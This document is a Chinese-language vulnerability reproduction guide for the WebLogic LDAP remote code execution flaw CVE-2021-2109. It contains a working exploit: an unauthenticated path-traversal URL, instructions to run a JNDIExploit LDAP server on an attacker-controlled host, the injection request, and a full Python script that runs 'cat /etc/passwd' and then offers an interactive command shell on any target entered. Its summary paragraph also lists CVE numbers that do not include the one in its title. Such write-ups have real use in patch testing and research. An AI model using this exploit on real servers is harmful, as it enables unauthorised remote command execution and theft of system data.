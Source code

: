 # Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

> [!NOTE]
>
> WebLogic Server 10.3.6.0.0
>
> WebLogic Server 12.1.3.0.0
>
> WebLogic Server 12.2.1.3.0
>
> WebLogic Server 12.2.1.4.0
>
> WebLogic Server 14.1.1.0.0

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![](image/weblogic-1.png)

## 漏洞复现

访问一下URL http://xxx.xxx.xxx.xxx:7001/console/css/%252e%252e%252f/consolejndi.portal

![](image/weblogic-6.png)

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞

下载漏洞攻击需要的 LDAP启动脚本

[下载链接](https://github.com/feihong-cs/JNDIExploit/releases/tag/v.1.11)

![](image/weblogic-7.png)

下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![](image/weblogic-8.png)

> [!NOTE]
>
> 部分服务器注意放行端口

然后配合 Weblogic未授权范围 命令执行

```
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

> [!NOTE]
>
> 注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;

![](image/weblogic-9.png)

登录后台可使用此POC，未授权的话用上面的

```
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

## 漏洞利用POC

> [!NOTE]
>
> 注意参数格式 Ldap >>> ldap://xxx.xxx.xxx;xxx:1389 中的分号
>
> 如果使用其他的利用Ldap服务请自行更改 POC关键字
>
> 此POC仅仅检验有未授权的情况

```python
import requests
import sys
import re
requests.packages.urllib3.disable_warnings()
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Weblogic 多个版本                                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mLDAP        >>> ldap://xxx.xxx.xxx;xxx:1389                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "root:" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

def POC_2(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response))
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    ldap_url = str(input("\033[35mLdap >>> \033[0m"))
    POC_1(target_url, ldap_url, cmd="cat /etc/passwd")

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, ldap_url, cmd)

```

![](image/weblogic-10.png)

## Goby & POC

> [!NOTE]
>
> Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109
>
> 注意漏洞验证 Ldap参数同样跟上面的POC一样格式，注意分号

![](image/weblogic-11.png)

